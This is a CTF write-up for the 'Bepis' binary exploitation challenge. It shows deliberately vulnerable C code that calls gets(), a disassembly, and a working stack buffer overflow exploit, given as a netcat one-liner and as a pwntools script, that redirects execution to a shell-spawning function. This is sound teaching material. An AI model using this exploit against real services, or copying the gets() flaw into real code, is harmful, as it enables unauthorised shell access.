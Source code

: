 # Bepis
* **Event:** BepisCTF (ISSS CTF 09-06-2016)
* **Problem Type:** Binary Exploitation

## Background
[Netcat](https://en.wikipedia.org/wiki/Netcat) is an invaluable tool for testing networking and connecting to servers.

[Objdump](https://linux.die.net/man/1/objdump) Allows you to dump compiled code into readable assembly

[Pwntools](https://github.com/arthaud/python3-pwntools) is very useful when exploiting more complicated services.

[GDB](http://man7.org/linux/man-pages/man1/gdb.1.html) allows you to easily debug programs and see what is happening inside them at runtime.

## Steps
### Connect to the server with netcat
```
$ nc ctf.iss.io 9002
Welcome to the Bepis remote access database.
Enter password:
uhhhh
Authentication not implemented yet, come back later.
```
This just gives us an idea of what the program does.

### Look at source :)
The source is provided for us!
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int do_auth(char * pass);
void login();
void get_flag();

int main() {
  printf("Welcome to the Bepis remote access database.\n");
  login();
  return 1;
}

int do_auth(char * pass) {
  printf("Authentication not implemented yet, come back later.\n");
  return 0;
}

void login() {
  printf("Enter password:\n");
  char buffer_123[30];
  gets(buffer_123);
  if(do_auth(buffer_123)) {
    get_flag();
  }
}

void get_flag() {
  char*  args[2] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
}
```
Basically we want to find some way to call `get_flag`. If we read the man page for gets() it says:
```
Never use gets().  Because it is impossible to tell without knowing the data in advance  how  many  characters
       gets()  will  read, and because gets() will continue to store characters past the end of the buffer, it is ex‐
       tremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.
```

The wikipedia page for buffer overflow says:
```
By overwriting the return address in a stack frame. Once the function returns,
execution will resume at the return address as specified by the attacker
- usually a user-input filled buffer
```

This seems like a promising way to call `get_flag`

### Look at assembly
```
$ objdump -M intel --disassemble=login pwnable
00000000004005f2 <login>:
  4005f2:       55                      push   rbp                          @ Store rbp for main
  4005f3:       48 89 e5                mov    rbp,rsp
  4005f6:       48 83 ec 20             sub    rsp,0x20
  4005fa:       bf 5d 07 40 00          mov    edi,0x40075d
  4005ff:       e8 6c fe ff ff          call   400470 <puts@plt>
  400604:       48 8d 45 e0             lea    rax,[rbp-0x20]               @ This is where name is
  400608:       48 89 c7                mov    rdi,rax
  40060b:       b8 00 00 00 00          mov    eax,0x0
  400610:       e8 8b fe ff ff          call   4004a0 <gets@plt>
  400615:       48 8d 45 e0             lea    rax,[rbp-0x20]
  400619:       48 89 c7                mov    rdi,rax
  40061c:       e8 b4 ff ff ff          call   4005d5 <do_auth>
  400621:       85 c0                   test   eax,eax
  400623:       74 0a                   je     40062f <login+0x3d>
  400625:       b8 00 00 00 00          mov    eax,0x0
  40062a:       e8 03 00 00 00          call   400632 <get_flag>
  40062f:       90                      nop
  400630:       c9                      leave
  400631:       c3                      ret
```
The stack should look something like this:
```
[saved rip for main]
[saved rbp for main]
[name + 0x20]
[name + 0x1f]
...
```

### Write an exploit
We can see that if we overwrite 0x28 bytes, the next 8 bytes written will overwrite the saved rip for main.
To determine what to overwrite the saved rip with we need to know where `get_flag` is.
```
$ objdump -M intel -disassemble=get_flag pwnable
...
0000000000400632 <get_flag>:
...
```

We can write the exploit like this:
```
(python3 -c "print('a'*0x28 + '\x32\x06\x40\x00\x00\x00\x00\x00')"; cat -) | nc ctf.isss.io 9002

Welcome to the Bepis remote access database.
Enter password:
Authentication not implemented yet, come back later.
ls
flag.txt
cat flag.txt
utflag{c0rrupt_byt3s}
```
The `get_flag` bytes are backwards because of [little endianness](https://en.wikipedia.org/wiki/Endianness)

### Writing an exploit with pwntools
Pwntools is great for harder binary exploitation challenges.

```
from pwn import *

r = remote("ctf.isss.io", 9002)
r.readline()
addr = 0x0000000000400632
r.sendline(b'a'*40 + p64(addr))
r.interactive()

from pwn import *
```
